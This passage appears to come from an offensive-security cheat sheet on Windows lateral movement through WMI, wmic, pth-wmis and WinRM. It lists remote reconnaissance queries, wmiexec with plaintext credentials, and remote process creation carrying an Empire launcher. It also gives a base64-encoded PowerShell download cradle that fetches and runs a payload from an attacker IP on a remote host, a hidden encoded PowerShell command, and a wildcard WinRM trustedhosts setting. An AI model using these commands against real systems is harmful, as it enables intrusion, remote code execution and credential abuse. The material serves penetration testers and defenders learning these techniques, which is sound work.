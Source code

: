     ```
- wmiexec.py
  - Windows Management Instrumentation (WMI) to launch a semi-interactive shell.
  - WMI is the infrastructure for management data and operations on Windows (like SNMP).
  - without touching disk or creating a new service.
  ```
  wmiexec.py administrator:password@10.10.10.10
  ```
- wmic
    ```
    wmic computerystem list full /format:list  
    wmic process list /format:list  
    wmic ntdomain list /format:list  
    wmic useraccount list /format:list  
    wmic group list /format:list  
    wmic sysaccount list /format:list  
    ```
    - <https://techcommunity.microsoft.com/t5/Ask-The-Performance-Team/Useful-WMIC-Queries/ba-p/375023>
    - <https://windowstech.net/wmic-commands/>
    - Can query remotely.
    - Logging for WMI events is disabled by default: <https://msdn.microsoft.com/en-us/library/windows/desktop/aa826686(v=vs.85).aspx>
    ```
    wmic
    wmic> /node:"machinename" /user:"username" computerystem list full /format:list
    ```
    - Local admins on a remote machine
    ```
    wmic /node:ordws01 path win32_groupuser where (groupcomponent="win32_group.name=\"administrators\",domain=\"ORDWS01\"")  
    ```
    - Who is logged-in: `wmic /node:ordws01 path win32_loggedonuser get antecedent`
    - Read nodes from text file: `wmic /node:@workstations.txt path win32_loggedonuser get antecedent  `
    - Execute command:
    ```
    powershell.exe -NoP -sta -NonI -W Hidden -Enc JABXAEMAPQBOAEUAVwAtAE8AQgBKAGUAQw...truncated...  
    ```
    ```
    wmic /node:ordws01 /user:CSCOU\jarrieta path win32_process call create "**empire launcher string here**"  
    ```
    - Used in:
        - <https://github.com/samratashok/nishang>
        - <https://github.com/PowerShellMafia/PowerSploit>
        - CrackMapExec
        - wmiexec.py
        - wmis
- pth-wmis
  - pth-wmis doesn’t work on 64 bit Kali, however, pth-wmic works with no issues and apparently this has been a problem since 2013. After downloading the 32 bit version of pth-wmis and the required libraries, we are back up and running.
    ```
    echo "iex (New-Object Net.WebClient).DownloadString('http://172.16.67.128:80/6WcepYO')" | iconv --to-code UTF-16LE | base64 -w 0
    kaliwmis-32 -U administrator%badpassword //10.10.10.10 "cmd.exe /c  powershell.exe -nop -enc <base64-value>"
    ```
- Windows Remote Management (WinRM)
  - 5985/tcp (HTTP) / 5986/tcp (HTTPS)
  - Allows remote management of Windows machines over HTTP(S) using SOAP.
  - On the backend it's utilizing WMI.
  - Enable: `Enable-PSRemoting -Force Set-Item wsman:\localhost\client\trustedhosts *`
  - Test if target is configured for WinRM: `Test-WSMan machinename`